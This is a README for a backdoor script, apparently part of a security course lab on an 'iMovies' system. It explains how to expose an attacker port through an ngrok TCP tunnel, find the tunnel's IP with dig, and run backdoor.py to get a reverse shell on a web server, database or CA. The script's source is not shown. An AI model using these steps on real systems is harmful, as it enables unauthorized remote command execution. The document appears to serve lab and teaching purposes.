 # Backdoor Script

Remotely execute commands on the Web Server, the Database and the CA of the system.

## Set Up

Before running the backdoor script, you need to expose a local port to the Internet, making it accessible from the target machine.

Create a TCP tunnel with Ngrok, using your local port `4444` as an example:

```bash
ngrok tcp 4444
```

Ngrok provides a URL and a port, e.g.:

```txt
Forwarding                    tcp://2.tcp.eu.ngrok.io:17179 -> localhost:4444
```

Here, the URL is `2.tcp.eu.ngrok.io` and the port is `17179`.

Then obtain the IP address of the Ngrok URL by using the `dig` command. For instance:

```bash
dig 2.tcp.eu.ngrok.io
```

You might see something like this:

```txt
;; ANSWER SECTION:
2.tcp.eu.ngrok.io.      900     IN      A       3.126.37.18
```

In this case, the IP address is `3.126.37.18`.

## Run

Install the required dependencies:

```bash
pip install -r requirements.txt
```

Then run the backdoor script:

```txt
Usage: ./backdoor.py LOCAL_ATTACKER_PORT REMOTE_ATTACKER_IP REMOTE_ATTACKER_PORT <web|db|ca>
```

The parameters are:

- `LOCAL_ATTACKER_PORT`: The local port for communication with the attacker.
- `REMOTE_ATTACKER_IP`: The IP address the target machine will connect to.
- `REMOTE_ATTACKER_PORT`: The port the target machine will connect to.
- `<web|db|ca>`: The target machine. Choose between `web` for the Web Server, `db` for the Database and `ca` for the CA.

Example:

```bash
./backdoor.py 4444 3.121.18.47 17179 web
```

The script opens a shell on the target machine and allows you to run commands. Exit the shell by typing `exit` or pressing `Ctrl+C`.

### Connecting to Local Containers

The backdoor script is configured by default for the client machine. For use on your machine connecting to local containers, set these environment variables before running the script:

```bash
export WEB_HOST='https://127.0.0.1:8000'
export CA_HOST='https://ca.imovies.ch:8000'
```
